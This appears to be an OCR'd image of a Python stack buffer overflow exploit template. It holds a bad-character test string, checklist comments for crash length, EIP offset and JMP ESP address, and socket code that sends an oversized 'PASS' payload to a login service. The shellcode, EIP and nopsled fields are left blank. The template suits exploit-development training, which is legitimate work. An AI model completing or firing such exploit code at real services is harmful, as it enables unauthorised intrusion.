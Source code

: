 ```
chars += "\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
chars += "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
chars += "\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
chars += "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
chars += "\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
chars += "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
chars += "\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

#
# PATTERN
# Paste pattern_create command next line and pattern beneath.
# 

#
# PAYLOAD
# Paste msfvenom command next line, payload info beneath, then payload.
# 

#################### Exploit
# Target crashes at "A" * 2700____________________ (# bytes: qty of char "A")
# Badchars: ______________________________________ (\xXX hex string)
# Pattern-generated EIP: _________________________ (4 bytes in hex)
# Specific offset (splat) is _____________________ (# bytes)
# Usable JMP ESP at ______________________________ (little-endian hex addr)

sploit  = ""
sploit += ""           # protocol reqts
sploit += chars        # badchar test                                         #MOD
sploit += ""           # pattern_create
sploit += "A" * 2700   # splat
sploit += ""           # eip
sploit += ""           # nopsled
sploit += ""           # payload
sploit += ""           # nopsled

#################### Communication

# Standup
printinfo(["Creating socket ..."])
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
printinfo(["Connecting to", ip, "on port", port, "..."])
connect = s.connect((ip, port))
s.recv(1024)

# Interact
printinfo(["Sending username \"test\" ..."])
s.send('USER test\r\n')
s.recv(1024)
printinfo(["Sending password of", len(sploit), "bytes..."])
s.send('PASS ' + sploit + '\r\n')

# Result
printresult(["Exploit sent. Attack complete."])

# Teardown
printinfo(["Quitting connection."])
s.send('QUIT\r\n')
s.close()
```
